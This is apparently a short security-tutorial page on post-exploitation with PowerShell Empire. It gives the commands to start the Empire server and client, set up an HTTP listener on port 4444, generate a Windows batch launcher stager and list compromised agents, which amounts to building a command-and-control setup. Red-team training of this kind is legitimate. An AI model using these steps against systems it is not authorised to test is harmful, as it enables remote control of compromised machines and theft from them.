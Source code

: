 # Welcome to Cyber Secure Labs
Public Site for sharing security writes




## Post Exploitation 



### Working with Powershell Empire 

Empire is a “PowerShell and Python post-exploitation agent” with a heavy focus on client-side

exploitation and post-exploitation of Active Directory (AD) deployments.


Windows Platform: Exploitation and post exploits are performed using Powershell.


Linux & macOS: Exploitation requires Python 2.6 or 2.7



In the latest version of Powershell Empire comes with a cleint-server model.

To start the server, the command is below: 

```
sudo powershell-empire server
```

To start the client, the command is below: 

```
sudo powershell-empire client
```

After starting both the client an server, the methodology used to carry out an attack are as follows:

1. Start a Listener 
2. Start a Stager
3. Listing the Agents
4. Interact with the agents
5. Run Post Exploitation commands

### Setting up a listener:

```
use Listener http

set Name test

set Host 192.168.119.208

set Port 4444

execute

```

### Setting up a stager:


```
usestager windows/launcher_bat

set Listener test

execute

```


### Setting up a stager:

```
agents
```


